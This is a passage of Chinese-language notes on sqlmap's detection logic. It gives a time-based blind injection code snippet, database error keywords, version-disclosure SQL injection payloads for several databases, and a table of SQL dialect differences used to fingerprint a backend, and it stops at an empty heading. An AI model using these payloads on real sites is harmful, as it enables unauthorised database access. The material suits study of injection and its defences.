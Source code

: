 elif noteResponseTime:

    kb.responseTimes.append(threadData.lastQueryDuration)


另外，为了确保基于时间的盲注的准确性，sqlmap执行了两次queryPage。

如果2次的结果都为True，那么就说明目标网址可注入，所以将injectable 设置为True。

##   数据库特性
###3.1  Web报错关键字

```
Microsoft OLE DB  Provider

ORA-

PLS-

Error in your SQL Syntax

SQL Error

Incorrect Syntax near

Failed Mysql

Unclosed Quotation Mark

JDBC/ODBC Driver
```

###3.2  版本查询
`Mysql: /?param=1 select count(*) from information_schema.tables group by
concat(version(),floor(rand(0)*2))`

`MSSQL: /?param=1 and(1)=convert(int,@@version)--`

`Sybase: /?param=1 and(1)=convert(int,@@version)--`

`Oracle >=9.0: /?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select replace(banner,chr(32),chr(58)) from sys.v_$version where rownum=1)||chr(62))) from dual)—`

`PostgreSQL: /?param=1 and(1)=cast(version() as numeric)--`
 
###3.3  SQL方言差异

|DB|连接符|行注释|唯一的默认表变量和函数
|--|--|--|--
MSSQL|%2B (URL+号编码)例如 ?category=sho'%2b'es|--|@@PACK_RECEIVED
MYSQL|%20（URL空格编码）|#|CONNECTION_ID()
Oracle|&#x7c;&#x7c;|--|BITAND(1,1)
PGsql|&#x7c;&#x7c;|--|getpgusername()
Access|"a" & "b"|N/A|msysobjects

3.4  SQL常用语句
SQL常用语句
